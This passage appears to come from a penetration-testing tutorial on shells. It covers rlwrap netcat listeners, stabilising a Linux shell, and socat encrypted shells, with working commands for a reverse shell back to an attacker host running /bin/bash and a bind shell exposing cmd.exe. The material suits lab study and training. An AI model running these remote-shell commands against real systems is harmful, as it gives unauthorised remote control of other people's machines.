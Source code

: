 To use rlwrap, we invoke a slightly different listener:

```sh
rlwrap nc -lvnp <port>
```

This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise

When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell..

### Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Basically replace `TCP` with `OPENSSL`.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```sh
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single `.pem` file:

```sh
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. `vefity=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

```sh
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```sh
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```sh
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
